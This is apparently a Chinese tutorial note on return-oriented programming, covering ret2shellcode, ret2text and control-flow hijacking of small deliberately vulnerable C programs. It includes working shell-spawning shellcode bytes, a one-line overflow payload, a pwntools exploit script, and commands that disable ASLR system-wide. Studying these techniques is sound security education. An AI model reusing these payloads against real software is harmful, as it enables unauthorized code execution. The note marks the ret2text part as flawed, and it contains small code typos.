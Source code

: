 # 什么是ROP

​		ROP 全称为 Return Oriented Programming，即返回导向编程，是一种高级的内存攻击技术可以用来绕过现代操作系统的各种通用防御（比如内存不可执行和代码签名等）。栈溢出的控制点是ret处，那么ROP的核心思想就是利用以ret结尾的指令序列把栈中的应该返回EIP的地址更改成我们需要的值，从而控制程序的执行流程。

# ROP的 目的

​		**ROP可以绕过一般通用的防御机制**，例如NX（No-execute），NX（DEP）的基本原理是将数据所在内存页标识为不可执行，当程序溢出成功转入shellcode时，程序会尝试在数据页面上执行指令，此时CPU就会抛出异常，而不是去执行恶意指令。开启NX 保护机制后，直接向栈或者堆上直接注入代码的方式难以继续发挥效果。ROP就是绕过这种机制的一种办法。

# 基本ROP

## 1.ret2shellcode

### 原理

​		**ret2shellcode**，ret to shellcode，就是将返地址覆盖到我们插入shellcode的首地址。（普通栈溢出漏洞利用，需要在NX未开启的前提下）

### 简单例子

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
int main(int argc, char **argv) {
char buffer[256];
if(argc != 2) {
exit(0);
}
printf("%p\n", buffer);
strcpy(buffer, argv[1]);
printf("%s\n", buffer);
return 0;
}
```

使用gcc编译

```
gcc -m64 bof.c -o bof -z execstack -fno-stack-protector -g
```

分析程序：

```
溢出发生在 strcpy，将main函数调用前入栈的rip的值覆盖
触发发生在main函数调用结束，ret返回时弹出溢出的rip 并且执行。
所以需要找到：
	buffer的起始地址（shellcode 的起始地址）
	ret 的地址
	之间的缓冲区的大小
```

首先使用若干个 “A” 填充，发现起始地址为 `0x7fffffffddf0`

```
run $(python -c  'print "A" * 260 ')
```

![image-20220924155637587](10.ROP.assets/image-20220924155637587.png)

然后执行到ret 时观察rsp的地址 为`0x7fffffffdef8`

![image-20220924155804149](10.ROP.assets/image-20220924155804149.png)



所以缓冲区的大小就是  `def8-ddf0 = x0108 = 264`

真正的shellcode  32字节 ，剩余用A填充（264-32=232）

```
\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05
```

```
./bof $(python -c 'print "\x48\x31\xc0\x50\x48\x89\xe2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05" +  "A" * 232+"\x7f\xff\xff\xff\xdd\xf0"[::-1]')
```

## 2.ret2text   （有问题）

### 原理

ret2text，控制返回地址指向程序本身已有的的代码(.text)并执行。这时，需要知道对应返回的代码的位置。

### 例子

​		手动码一个带栈溢出问题的程序，这个程序有两个子函数func和sys，func中gets位置存在栈溢出，而sys函数未被任何函数调用。

```
//ret2text.c
#include <stdlib.h>
int sys(){
	system("/bin/shn");
}
int func(){
	char a[10];
	gets(a);
	puts(a);
}
int main(){
	func();
}	
```

​		为了方便学习分析，这次先不加入canary机制和地址随机化问题的干扰，这些机制的绕过方式放在后面统一归纳总结。所以在gcc编译过程中加入参数使其关闭这两个保护机制，并打开-g调试选项，使用如下方式进行编译。

```
gcc ret2text.c -g  -fno-stack-protector -no-pie  -o ret2text64 
```

### ROP过程

问题分析

首先我们将程序gdb中，使用checksec查看一下安全机制（虽然这个题目的安全机制我们已经提前知道）

![image-20220921195820367](10.ROP.assets/image-20220921195820367.png)

​		分析这个程序，从ret2text的原理来看，我们需要覆盖通过func函数中的局部变量a的溢出，覆盖func函数的返回地址，将其引导到sys函数的地址就可以获取shell。



所以我们需要的信息有以下几点：
1.局部变量a的地址
2.func()	函数的返回地址
3.sys函数的地址

![image-20220922193001937](10.ROP.assets/image-20220922193001937.png)

A的起始地址为 0x7fffffffdfe6

![image-20220922193202723](10.ROP.assets/image-20220922193202723.png)



func的返回地址为 0x7fffffffdff8

所以要缓冲区要覆盖  ` 0x7fffffffdff8 - 0x7fffffffdfe6 =0x12 =18`    +4字节返回

**使用radare2查找sys函数的地址**

![image-20220922193758619](10.ROP.assets/image-20220922193758619.png)

00401176



然后写出exp：

```
from pwn import *

p = process("./ret2text64")
payload = b"A"*18 + p64(0x401176)
p.sendline(payload)
p.interactive
```











































# **Control Flow Hijack 程序流劫持**

```c
#undef _FORTIFY_SOURCE
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

void vulnerable_function(){
	char buf[128];
	read(STDIN_FILENO,buf,256);
}

int main(int arcg,char** argv)
{
	vulnerable_function();
	write(STDOUT_FILENO,"Hello,World\n",13);
}
```



```
gcc -fno-stack-protector -z execstack -olevel1 level1.c -m32//关掉DEP和Stack Protector

sudo bash -c "echo 0 > /proc/sys/kernel/randomize_va_space" //关掉整个linux系统的ASLR保护。
cat /proc/sys/kernel/randomize_va_space  //查看
```

我们开始对目标程序进行分析。首先我们先来确定溢出点的位置

首先使用gdb-gef启动，在	`read@plt`	处下断点，先用100个 A测试

![image-20220920201007380](10.ROP.assets/image-20220920201007380.png)

返回eip地址为  `0x5655621d `      

使用命令` x/20xg $esp `  查看缓冲区的起始地址，`0xffffd130`

<img src="10.ROP.assets/image-20220920201153089.png" alt="image-20220920201153089" style="zoom:50%;" />

![image-20220920205105135](10.ROP.assets/image-20220920205105135.png)

返回地址为`0xffffd1bc`  缓冲区长度为`d1b0-d130 + 4 `=0x90+4 = 144

![image-20220920205123001](10.ROP.assets/image-20220920205123001.png)



这是通常情况下寻找 缓冲区的起始地址和  返回地址

但当真的执行exp的时候你会发现shellcode压根就不在这个地址上！这是为什么呢？原因是gdb的调试环境会影响buf在内存中的位置，虽然我们关闭了ASLR，但这只能保证buf的地址在gdb的调试环境中不变，但当我们直接执行./level1的时候，buf的位置会固定在别的地址上。怎么解决这个问题呢？

![image-20220920211312681](10.ROP.assets/image-20220920211312681.png)

最简单的方法就是开启core dump这个功能。

```
ulimit -c unlimited
sudo sh -c 'echo "/tmp/core.%t" > /proc/sys/kernel/core_pattern'
```











[一步一步学ROP之linux_x86篇 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/23487280)

[一步一步学ROP之linux_x64篇 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/23537552)







